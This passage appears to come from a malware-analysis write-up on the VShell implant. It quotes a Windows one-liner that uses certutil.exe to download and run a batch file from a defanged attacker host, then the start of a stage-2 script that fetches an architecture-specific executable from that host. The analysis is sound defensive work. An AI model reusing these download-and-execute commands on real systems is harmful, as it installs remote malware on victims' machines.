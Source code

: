 [![2](/assets/images/china/image5.png)](/assets/images/china/image5.png){: .full}

## VShell - Windows one-liner

### Stage 1 

```
certutil.exe -urlcache -split -f hxxp://microsoft-symantec[.]art:8848/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```

* This uses the LOLBin, [`certutil.exe`](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), in order to download a secondary payload - `C:\Users\Public.bat`

### Stage 2

We can download the batch script ourselves for further analysis:

```
@echo off
setlocal enabledelayedexpansion

set u64="hxxp://microsoft-symantec[.]art:8848/?h=microsoft-symantec.art&p=8848&t=tcp&a=w64&stage=true"
set u32="hXXp://microsoft-symantec[.]art:8848/?h=microsoft-symantec.art&p=8848&t=tcp&a=w32&stage=true"
set v="C:\Users\Public\07f79946tcp.exe"
del %v%
for /f "tokens=*" %%A in ('wmic os get osarchitecture ^| findstr 64') do (
    set "ARCH=64"
)
if "%ARCH%"=="64" (
    certutil.exe -urlcache -split -f %u64% %v%
) else (
    certutil.exe -urlcache -split -f %u32% %v%
```